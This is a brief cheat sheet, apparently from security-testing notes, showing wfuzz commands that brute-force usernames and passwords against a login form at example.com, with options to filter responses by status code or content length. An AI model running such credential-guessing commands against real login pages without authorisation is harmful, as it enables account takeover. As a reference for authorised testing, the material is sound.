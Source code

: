 <br />

### Using Wfuzz

```sh
# Cracking username
wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" https://example.com/login
# Cracking password
wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" https://example.com/login

# Range: 00-99 -> "password00", "password01", ..., "password99"
# -t: N threads
# -s: N seconds per request
wfuzz -z range,00-99 -d "username=admin&password=passwordFUZZ&submit=Submit" -X POST -u https://example.com/login -t 1 -s 20

# -- Options --------------------------------------------------------------------------------------------

# --hc: Hide the specific status code
wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --hc 302 http://example.com/login
# --hh: Hide the specific chars (Content-Length)
wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --hh 783 http://example.com/login

# --sc: Show the specific statuc code
wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --sc 302 http://example.com/login
# --sh: Show the specific chars (Content-Length)
wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --sh 1214 http://example.com/login
```